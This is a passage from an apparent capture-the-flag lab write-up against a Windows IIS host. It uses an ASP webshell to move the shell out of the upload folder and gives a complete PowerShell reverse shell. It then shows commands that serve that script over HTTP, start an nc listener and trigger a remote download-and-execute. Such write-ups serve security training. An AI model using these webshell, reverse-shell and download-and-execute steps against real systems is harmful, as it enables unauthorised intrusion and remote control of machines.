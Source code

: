 ![web3](./conceal/web3.png)

Since code execution is given using the basic ASP webshell, move payloads out of the `/upload` directory to get around this annoying task. Since the error message above says the working directory is `C:\inetpub\wwwroot\upload\`, move `bubba.asp` to `C:\inetpub\wwwroot\` to prevent being deleted:

```bash
curl -s -G --data-urlencode 'c=cmd.exe /c copy C:\inetpub\wwwroot\upload\bubba.asp C:\inetpub\wwwroot\bubba.asp' http://10.10.10.116/upload/bubba.asp
```

This seems to get around the annoying clean-up task. Now get around AV by using a basic PowerShell reverse shell:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.27',6969);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback = (iex $data 2>&1 | Out-String);
  $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush();
}
$client.Close();
```

Save the above as `bubba.ps1` and then get a reverse shell as follows:

```bash
# host payload
sudo python3 -m http.server 80
# start listener 
nc -nvlp 6969
# send download & execute request
curl -s -G --data-urlencode "c=powershell.exe -exec bypass -c IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.27/bubba.ps1')" http://10.10.10.116/bubba.asp
```

